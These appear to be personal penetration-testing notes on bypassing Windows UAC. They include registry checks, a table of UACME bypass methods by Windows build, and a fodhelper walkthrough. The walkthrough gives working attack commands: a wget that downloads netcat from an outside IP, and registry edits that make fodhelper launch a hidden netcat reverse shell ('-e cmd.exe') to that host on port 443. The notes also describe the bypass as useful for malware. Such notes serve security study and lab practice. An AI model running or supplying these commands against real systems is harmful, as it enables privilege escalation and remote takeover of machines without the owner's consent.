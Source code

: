 bypasses are mainly valuable when you:

- Have command-line only access (like through a reverse shell)
- Are operating through a web shell or other non-interactive interface
- Need to avoid UAC prompts in automated scripts/malware
### how to detect UAC blocked you:
- you get access denied despite having the right user/group  privileges with `whoami` when attempting a privEsc technique
- you got access denied when attempted to configure the system in a way
## Requirements:
- right assignment, group membership, but with medium token
### **What It’s NOT**

 UAC bypass techniques (like fodhelper) **do not grant new privileges beyond what your account is allowed**.
    
- If your account is in the **Administrators group**, UAC prevents apps from running at **high integrity** by default.
    - Fodhelper bypasses removes that barrier → **medium integrity → high integrity** (same user, just elevated token).
### bypass steps:
- confirm UAC is enabled & what security level (1 to 5)
- check windows version
- 4. [look for bypasses here](https://github.com/hfiref0x/UACME)
#### mendatory label `whoami /groups`
lists current token tier: medium. low, high
```
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288  

```
#### Confirming UAC is Enabled
```cmd-session
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```
#### Checking UAC Level
```cmd-session
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```
#### 3.  Checking Windows Version

1. `get build` 
```powershell-session
[environment]::OSVersion.Version
```
2. get Version from ( right side) here:
https://en.wikipedia.org/wiki/Windows_10_version_history
![[Pasted image 20250822144215.png]]
#### list of recent UAC bypasses:
(From UACME project & commit history, focused on Win10/11)

|**ID**|**Method Name**|**Target**|**Supported Builds**|
|---|---|---|---|
|**62**|Fodhelper COM Interface|`fodhelper.exe`|Win10 RS1 (14393) – 22H2 (19045)|
|**63**|WSReset DLL Hijack|`WSReset.exe`|Win10 RS1 (14393) – 21H2 (19044)|
|**64**|DiskCleanup COM Interface|`cleanmgr.exe`|Win10 RS1 (14393) – RS6 (~18363)|
|**65**|SDCLT Auto-Elevated|`sdclt.exe`|Win10 RS1 (14393) – RS5 (~17763)|
|**69**|AppPaths Environment Injection|AutoElevated EXEs|Win10 RS4 (17134) – 21H2 (19044)|
|**78**|ComputerDefaults Hijack|`ComputerDefaults`|Win10 RS5 (17763) – 22H2 (19045)|
|**84**|CurVer Hijack for App Paths|COM Class Hijack|Win10 1903 (18362) – 22H2 (19045)|
|**90**|Newer App Paths Hijack|COM / Registry|Win10 21H1 (19043) – Win11 22000+|
|**92**|CurVer/Registry Trick (Win11)|COM / Registry|Win11 (22000) – Current|
|**93**|New UIAccess / Registry Method|UAC Registry Paths|Win11 (22621) – Current|
## UAC bypass via  foldhelper:
fodhelper runs with the same user token, but it automatically elevates to a high-integrity version of that token.
run script
```

FodhelperUACBypass -program "cmd /c start C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"`
```

2. manually

`fodhelper.exe` checks registry keys under the current user’s hive to determine **what command to execute for `ms-settings:` protocol**.

```
wget http://10.10.16.39\nc64.exe -O "C:\Users\Public\Documents\nc64.exe"
```

```javascript
 set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
 set CMD=”powershell -windowstyle hidden C:\Users\Public\Documents\nc64.exe -e cmd.exe 10.10.16.39 443"
 reg add %REG_KEY% /v “DelegateExecute” /d “” /f
reg add %REG_KEY% /d %CMD% /f
fodhelper.exe
```


` launch reverse shell with msfvenom as system`
```
- bypasses repo: [look for bypasses here](https://github.com/hfiref0x/UACME)
-  : https://github.com/hfiref0x/UACME/tree/v3.2.x

